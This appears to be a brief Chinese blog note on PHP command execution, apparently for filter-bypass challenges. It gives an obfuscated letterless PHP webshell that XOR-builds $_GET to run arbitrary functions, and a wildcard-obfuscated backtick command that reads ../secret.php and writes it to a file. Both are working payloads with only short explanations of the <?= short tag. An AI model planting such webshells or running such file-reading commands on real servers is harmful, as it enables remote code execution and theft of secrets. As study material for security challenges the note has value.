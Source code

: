 ```yaml
---
title: php-命令执行
date: 2018-07-18 15:58:22
tags:
passwd: 345678
---
```


1. webshell

```
<?=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);
=> 
// equivalent to $_GET[_]($_GET[__]);
```

2. 写文件

php的标签<?php存在字母肯定不行，尝试<?发现不解析，没有开启段标签。
查资料后发现<?=可以作为php标签。<?=的含义为<?php echo，是PHP 5.4.0以后的新特性
**不管是否设置 short_open_tag php.ini 选项，<?= 将总是可用。**

```
<?=$_=`/???/??? ../??????.???>@#$`;
=> 
/bin/cat ../secret.php>@#$
=> 
cat ../secret.php>@#$
```

